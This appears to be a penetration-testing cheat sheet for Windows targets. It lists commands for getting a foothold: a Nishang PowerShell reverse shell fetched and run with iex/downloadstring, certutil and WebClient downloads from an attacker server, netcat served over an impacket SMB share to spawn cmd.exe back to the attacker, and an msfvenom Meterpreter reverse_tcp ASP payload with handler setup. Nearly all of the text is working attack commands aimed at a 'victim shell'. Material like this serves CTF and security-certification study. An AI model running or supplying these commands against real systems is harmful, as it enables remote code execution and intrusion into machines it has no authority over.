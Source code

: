 ### Windows

#### Nishang
- git clone [Nishang](https://github.com/samratashok/nishang)
- edit InvokePowerShellTcp.ps1 /nishang/Shells/
paste *Invoke-PowerShellTcp -Reverse -IPAddress [your_ip] -Port [your_port]* on bottom of the file.
- run python HTTP server
  -python -m SimpleHTTPServer 443
  -python3 -m http.server 443
-In the victim shell: 
  powershell iex(new-object System.net.webclient).downloadstring('http://[your_ip:port]/Invoke-PowerShellTcp.ps1')
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### Powershell
powershell -ExecutionPolicy Bypass -File wget.ps1 http://[your_ip:port]/file file

echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1

### PowerShell file download
```
powershell iex(new-object System.net.webclient).downloadstring('http://[your_ip:port]/Invoke-PowerShellTcp.ps1')
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://[your_ip:port]/wget.exe','C:\Destination\path\wget.exe')"

##### powershell wget http://[your_ip:port]
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### smbserver

- smbserver.py
```
git clone [impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
```
create directory (for example test)
```
cp nc.exe to your_file_directory_path
```
run smbserver
```
python smbserver.py test your_file_directory_path (example: python smbserver.py test /root/mysmbfile
```
run local nc
```
nc -lnvp 443
```
In the victim shell
```
\\[your_ip]\test\nc.exe -e cmd.exe [your_ip]
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### certutil
```
certutil -urlcache -f http://[your_ip]/file output_file_name
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### Meterpreter
- create msfvenom payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[you_ip] LPORT=[your_port] -f asp > rs.asp

- use mstfconsole
exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost, lport and run

- execute reverse shell
curl http://10.10.10.5/rs.asp
